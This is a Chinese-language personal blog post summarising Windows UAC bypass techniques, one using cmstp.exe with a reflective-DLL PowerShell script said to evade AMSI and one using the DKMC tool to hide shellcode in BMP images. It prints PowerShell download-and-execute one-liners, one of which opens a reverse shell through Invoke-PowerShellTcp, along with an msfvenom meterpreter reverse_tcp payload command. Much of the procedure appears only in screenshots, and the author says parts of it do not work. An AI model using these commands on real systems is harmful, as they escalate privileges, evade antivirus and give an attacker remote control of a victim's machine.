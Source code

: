 ```yaml
---
layout:     post
title:      Bypass UAC的一些总结
date:       2018-12-16
author:     Wh0ale
header-img: img/wallhaven-326425.jpg
catalog: true
tags:
    - Bypass UAC
---
```


这几天看到的bypass 方法比较多，趁今天有空做个总结

一、利用microsoft的 “cmstp.exe”作为绕过UAC

其主要原理采用c#生成带有dll反射的的powershell脚本，amsi检测不到

关于amsi的文章参考：

<https://xz.aliyun.com/t/3095>

这里的文件编译号生成为dll文件

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehrf4diqj211z09oq5i.jpg)

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehvgal9qj20z10eejt9.jpg)

执行即可弹出administrator的命令行

另附自动化脚本放在附件里

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehvqrnfsj211y0kb43g.jpg)

这里看到与表哥复现

通过远程iex下载我们的执行命令脚本

生成一个一个直接执行命令的exe

①

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://InvokePowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.] 
```



②

```powershell
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.211.179:80/a'))" 
```



但是如何修改代码生成可执行命令的exe和脚本，还没弄懂  有时间大佬可以研究研究

二、DKMC

使用方法：

(gen) Generate a malicious BMP image //创建一张恶意BMP格式的图片 

(web) Start a web server and deliver malicious image //启动web服务（内置）并传送恶意图片 

(ps) Generate Powershell payload //创建Powershell 有效载荷 

(sc) Generate shellcode from raw file //从原始文件生成shellcode 

(exit) Quit the application //退出

生成shellcode
kali ip： 192.168.0.107

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.107 LPORT=9999 -f raw  > /opt/shellcode
```



![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehvz10mtj20iv0jv40n.jpg)
DKMC生成shellcode
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehw5aawkj20j00jp76v.jpg)
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehwb3qxvj20jc0kfacq.jpg)
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehwg1wxij20iw05i74x.jpg)
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehwk95jjj20jc0kfn01.jpg)
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehwohiwyj20jc0kfq6b.jpg)
这个之前尝试是可以弹shell的，今天不知道为啥不行.....我改天再试试看，原理就是把shellcode放入bmp文件中	